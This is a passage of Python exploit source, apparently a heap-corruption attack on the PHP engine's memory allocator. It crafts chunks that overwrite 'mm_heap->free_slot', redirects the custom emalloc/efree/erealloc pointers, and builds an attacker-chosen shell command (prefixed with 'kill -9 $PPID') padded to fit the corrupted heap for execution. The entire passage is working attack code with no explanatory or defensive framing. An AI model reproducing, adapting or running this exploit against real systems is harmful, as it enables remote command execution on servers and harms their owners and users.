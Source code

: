 ```python
        step4 = b"=00" + b"\x00" * (step4_size - 1)
        step4 = chunked_chunk(step4)
        step4 = chunked_chunk(step4)
        step4 = chunked_chunk(step4)
        step4 = compressed_bucket(step4)

        # This chunk will eventually overwrite mm_heap->free_slot
        # it is actually allocated 0x10 bytes BEFORE it, thus the two filler values
        step4_pwn = ptr_bucket(
            0x200000,
            0,
            # free_slot
            0,
            0,
            ADDR_CUSTOM_HEAP,  # 0x18
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            ADDR_HEAP,  # 0x140
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            size=CS,
        )

        step4_custom_heap = ptr_bucket(
            ADDR_EMALLOC, ADDR_EFREE, ADDR_EREALLOC, size=0x18
        )

        step4_use_custom_heap_size = 0x140

        COMMAND = self.command
        COMMAND = f"kill -9 $PPID; {COMMAND}"
        if self.sleep:
            COMMAND = f"sleep {self.sleep}; {COMMAND}"
        COMMAND = COMMAND.encode() + b"\x00"

        assert (
            len(COMMAND) <= step4_use_custom_heap_size
        ), f"Command too big ({len(COMMAND)}), it must be strictly inferior to {hex(step4_use_custom_heap_size)}"
        COMMAND = COMMAND.ljust(step4_use_custom_heap_size, b"\x00")

```